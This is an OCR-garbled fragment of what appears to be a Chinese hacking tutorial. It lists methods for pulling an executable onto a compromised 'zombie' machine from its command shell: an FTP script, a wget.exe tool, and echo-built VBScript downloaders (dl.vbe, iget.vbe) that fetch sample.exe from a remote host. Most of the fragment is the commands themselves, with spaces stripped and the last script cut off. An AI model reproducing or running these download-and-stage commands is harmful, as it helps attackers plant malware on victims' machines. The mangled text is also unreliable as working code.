 echobye>>ftp.txt

ftp-s:ftp.txt

delftp.txt

### 工具法

利用wineggdrop的wget.exe

肉鸡cmd中执行：wget网站/sample.exe

### 利用dl.vbe法

肉鸡cmd中执行：

echowithwscript:if.arguments.count^<2then.quit:endif

\>dl.vbe

echosetaso=.createobject("adodb.stream"):set

web=createobject("microsoft.xmlhttp")>>dl.vbe

echoweb.open"get",.arguments(0),0:web.send:if

web.status^>200thenquit>>dl.vbe

echo

aso.type=1:aso.open:aso.writeweb.responsebody:aso.savetofile

.arguments(1),2:endwith>dl.vbe

cscriptdl.vbehttp://*。*。*。*:88/sample.exesample.exe

### 利用iget.vbe法

方法同4，

肉鸡cmd中执行：

echoiLocal=LCase(WScript.Arguments(1))>iget.vbe

echoiRemote=LCase(WScript.Arguments(0))>>iget.vbe

echoSetxPost=CreateObject("Microsoft.XMLHTTP")

\>>iget.vbe



echoxPost.Open"GET",iRemote,0>>iget.vbe

echoxPost.Send()>>iget.vbe

echoSetsGet=CreateObject("ADODB.Stream")>>iget.vbe

echosGet.Mode=3>>iget.vbe

echosGet.Type=1>>iget.vbe

echosGet.Open()>>iget.vbe
